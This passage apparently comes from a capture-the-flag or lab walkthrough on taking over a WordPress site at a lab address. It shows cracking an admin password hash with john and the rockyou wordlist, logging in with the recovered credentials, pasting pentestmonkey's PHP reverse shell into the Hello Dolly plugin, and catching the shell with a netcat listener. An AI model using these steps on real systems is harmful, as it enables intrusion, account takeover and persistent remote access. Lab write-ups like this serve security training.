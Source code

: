 Check hash type (optional):
```bash
hash-identifier
paste password:
$P$B4fu6XVPkSU5KcKUsP1sD3Ul7G3oae1
should be MD5
exit
```

### 9. Crack password hash:
```bash
nano hash-wordpress.txt
john hash-wordpress.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

in this case its: teddybear

### 10. Login in WP as Admin User:

user:

corp-001

passwr:

teddybear

### 11. Next: Create a Reverse Shell

Replace template with reverse shell from pentest monkey
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

add the code to a plugin (hello dolly for example - should not be active)

Alternative:
Find code if exist:
```bash
cd /root/Tools
ls
cd php-webshells
ls
```
```bash
nano php-reverse-shell.php
```

Add the code and make sure to edit local ip address and port if needed


listen to server
```bash
nc -lvnp 1234
```

Paste the code in plugin editor hello dolly and save

Navigate to plugin path
http://10.10.153.214/wp-content/plugins/hello.php
